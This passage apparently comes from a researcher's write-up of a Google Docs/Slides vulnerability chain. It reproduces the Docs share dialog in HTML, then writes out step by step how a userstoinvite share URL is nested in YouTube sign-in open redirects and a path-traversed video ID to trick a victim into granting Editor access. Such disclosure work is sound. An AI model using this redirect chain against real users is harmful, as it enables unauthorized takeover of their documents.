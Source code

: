                    <a href="https://www.youtube.com/watch?v=6XFX8hL6YdI" title="there's no one in moominvalley to help"><div class="over360 iconButton iconButtonLight" style="position:absolute;right:6px;top:10px"><div class="helpIcon">?</div></div></a>
                    <div class="iconButton iconButtonLight" style="position:absolute;left:16px;top:12px"><svg width="24" height="24" viewBox="0 0 24 24" style="margin:auto"><path d="M20 11H7.83l5.59-5.59L12 4l-8 8 8 8 1.41-1.41L7.83 13H20v-2z"></path></svg></div>
                    <div class="shareDlgTitle" style="margin-left: 42px">Share "Secret Folder"</div>
                    <div style="display:flex;margin-top:20px"><div class="shareDlgBbox" style="padding:10px 18px;flex-grow:1;user-select:none;cursor:default;display:flex;align-items:center;margin-right:10px"><div class="shareDlgBubble"><div style="background:#7B1FA2;height:17px;width:17px;border-radius:17px;transform:translate(-4px,0);color:#FFF;line-height:17px;font-weight:400;font-size:12px" class="over480">L</div>Lyra Rebane<span style="margin-left:10px" class="over360">✖</span></div></div><div class="shareDlgBbox" style="padding:14px 18px;width:fit-content;user-select:none;cursor:default;display:flex;align-items:center">Editor<div class="sldsDrop over360" style="margin-left:12px"></div></div></div>
                    <div style="display:flex;align-items:center;margin-top:16px;margin-bottom:14px"><input id="notifyChk2" type="checkbox" style="width:18px;height:18px;filter: brightness(0.8) contrast(1.5);margin:1px;margin-right:16px" checked><label for="notifyChk2">Notify people</label></div>
                        <textarea class="shareDlgTbox shareDlgBbox" style="padding:8px 16px;font-size: 14px;height:96px;font-family:inherit;resize: none" placeholder="Message"></textarea>
                        <div style="display:flex;margin: 28px 0 8px;justify-content: flex-end"><div class="shareDlgBtn shareDlgBtnWhite">Cancel</div><div class="shareDlgBtn shareDlgBtnBlue" style="margin-left:8px">Send</div></div>
            </div>
        </div>
    </div>
</div>

And wow!? I had accidentally stumbled upon the perfect share dialog URL. For some reason, leaving out all the other query parameters makes the share dialog just auto-fill the e-mail field from the query parameter, defaulting to giving out *Editor* permissions.

Pretty much all we need to do here is convince someone to do a single click on the ambiguously labeled "Send" button, and we're set!

## Part 6: Re-re-redirects

I began putting the attack together, combining all the cool tricks we've come up with so far.

<ol style="word-break: break-all">
<li>We first take cool little docs invite url.<br>
<span class="urlBox">https://docs.google.com/file/d/1sHy3aQXsIlnOCj-mBFxQ0ZXm4TzjjfFL/edit?userstoinvite=lyra.horse@gmail.com</span></li>
<li>Then we put it inside the <b>accounts.youtube.com</b> redirect.<br>
<span class="urlBox">https://accounts.youtube.com/accounts/SetSID?continue=<span style="color:#999; font-weight: normal; filter: blur(1px)">https%3A%2F%2Fdocs.google.com%2Ffile%2Fd%2F1sHy3aQXsIlnOCj-mBFxQ0ZXm4TzjjfFL%2Fedit%3Fuserstoinvite%3Dlyra.horse%40gmail.com</span></span></li>
<li>Then we put <i>that</i> into the <b>youtube.com/signin</b> redirect.<br>
<span class="urlBox">https://www.youtube.com/signin?next=<span style="color:#999; font-weight: normal; filter: blur(1px)">https%3A%2F%2Faccounts.youtube.com%2Faccounts%2FSetSID%3Fcontinue%3D<span style="color:#666">https%3A%2F%2Fdocs.google.com%252Ffile%252Fd%252F1sHy3aQXsIlnOCj-mBFxQ0ZXm4TzjjfFL%252Fedit%253Fuserstoinvite%253Dlyra.horse%2540gmail.com</span></span></span></li>
<li>And finally, we turn it into a path traversed "videoid" we can embed in our slides.<br>
<span class="urlBox">../signin?next=https%3A%2F%2Faccounts.youtube.com%2Faccounts%2FSetSID%3Fcontinue%3Dhttps%3A%2F%2Fdocs.google.com%252Fa%252Fa%252Ffile%252Fd%252F1sHy3aQXsIlnOCj-mBFxQ0ZXm4TzjjfFL%252Fedit%253Fuserstoinvite%253Dlyra.horse%2540gmail.com</span></li>
</ol>
